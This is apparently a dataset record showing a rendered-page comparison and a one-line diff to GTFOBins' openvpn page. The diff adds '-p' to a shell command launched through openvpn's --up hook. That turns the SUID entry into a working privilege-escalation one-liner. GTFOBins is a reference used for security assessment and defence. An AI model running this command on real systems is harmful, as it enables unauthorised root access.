

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openvpn.md, in a window 1280 px wide. Shown: the part 497-797 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/openvpn.md
+++ b/_gtfobins/openvpn.md
@@ -7,7 +7,7 @@ functions:
   suid:
     - code: |
         COMMAND='id'
-        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
+        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -p -c \"$COMMAND\""
   sudo:
     - code: |
         COMMAND='id'
```
